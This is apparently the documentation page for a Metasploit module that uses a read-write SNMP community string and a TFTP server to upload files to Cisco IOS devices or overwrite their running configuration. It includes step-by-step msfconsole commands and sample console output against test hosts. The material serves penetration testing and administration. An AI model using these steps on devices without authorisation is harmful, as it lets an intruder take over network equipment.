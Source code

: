 ## Vulnerable Application

  Cisco IOS devices can be configured to retrieve, via tftp,  a file via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  This functionality can also be used to change their running configuration. This is documented [here](https://www.ciscozine.com/send-cisco-commands-via-snmp/). 
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  The default functionality of the module will upload the file and it will be saved to `flash:`.
  The `Override_Config` action will override the running configuration of the device and the file will not be saved.

## Verification Steps

Upload_File (Default Action)

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```run```
  
Override_Config

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```set action [Override_Config]```
  9. Do: ```run```
  10. You can **Verify** that the running config has been overridden by using the **auxiliary/scanner/snmp/cisco_config_tftp** module to download the current running config from the device.

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

  **SOURCE**

  The location of the source file to be uploaded to the Cisco device.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf5 > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 > use auxiliary/scanner/snmp/cisco_upload_file
msf5 auxiliary(scanner/snmp/cisco_upload_file) > set source /tmp/backup_config2
source => /tmp/backup_config2
msf5 auxiliary(scanner/snmp/cisco_upload_file) > set community private
community => private
msf5 auxiliary(scanner/snmp/cisco_upload_file) > run

[*] Starting TFTP server...
[*] Copying file backup_config2 to 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```
### Cisco 3560G switch running IOS 12.2

```

`msf5 auxiliary(scanner/snmp/cisco_upload_file) > set COMMUNITY private`
`COMMUNITY => private`
`msf5 auxiliary(scanner/snmp/cisco_upload_file) > set LHOST 10.20.164.164`
`LHOST => 10.20.164.164`
`msf5 auxiliary(scanner/snmp/cisco_upload_file) > set action Override_Config`
`action => Override_Config`
`msf5 auxiliary(scanner/snmp/cisco_upload_file) > set rhosts 10.20.205.5`
`rhosts => 10.20.205.5`
`msf5 auxiliary(scanner/snmp/cisco_upload_file) > set source /root/Desktop/newconfig`
`source => /root/Desktop/newconfig`
`msf5 auxiliary(scanner/snmp/cisco_upload_file) > run`

`[*] Starting TFTP server...`
`[*] Copying file newconfig to 10.20.205.5...`
`[*] Scanned 1 of 1 hosts (100% complete)`
`[*] Providing some time for transfers to complete...`
`[*] Shutting down the TFTP service...`
`[*] Auxiliary module execution completed`

```

